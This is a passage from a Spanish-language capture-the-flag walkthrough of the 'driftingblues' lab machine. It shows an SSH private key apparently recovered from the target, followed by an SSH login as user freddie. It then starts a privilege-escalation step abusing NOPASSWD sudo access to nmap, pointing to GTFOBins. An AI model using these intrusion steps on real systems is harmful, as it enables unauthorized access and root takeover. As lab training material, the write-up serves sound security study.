 ```shell
50wlwX9WqGWQMNzmAq0f/LMYovPaBfwK5N90lsm9zhnMLiTFcAAACBAM3SVsLgyB3B5RI6
9oZcVMQlh8NgXcQeAaioFjMRynjY1XB15nZ2rSg/GDMQ9HU0u6A9T3Me3mel/EEatQTwFQ
uPU+NjV7H3xFjTT1BNTQY7/te1gIQL4TFDhK5KeodP2PsfUdkFe2qemWBgLTa0MHY9awQM
j+//Yl8MfxNraE/9AAAADmZyZWRkaWVAdm1ob3N0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

```bash
❯ nano id_rsa

❯ chmod 400 id_rsa

❯ ssh -i id_rsa freddie@10.11.12.30
The authenticity of host '10.11.12.30 (10.11.12.30)' can't be established.
ED25519 key fingerprint is SHA256:P07e9iTTwbyQae7lGtYu8i4toAyBfYkXY9/kw/dyv/4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.12.30' (ED25519) to the list of known hosts.
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable l
```


## Escalación de privilegios

---

Validamos los permisos del usuario freedie sobre el sistema.

```bash
freddie@driftingblues:~$ sudo -l
Matching Defaults entries for freddie on driftingblues:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User freddie may run the following commands on driftingblues:
    (root) NOPASSWD: /usr/bin/nmap
```

Podemos ejecutar como root el binario `nmap`, el cual vamos a utilizar para elevar nuestro privilegio.

Utilizamos la web [GTFOBins](https://gtfobins.github.io/).
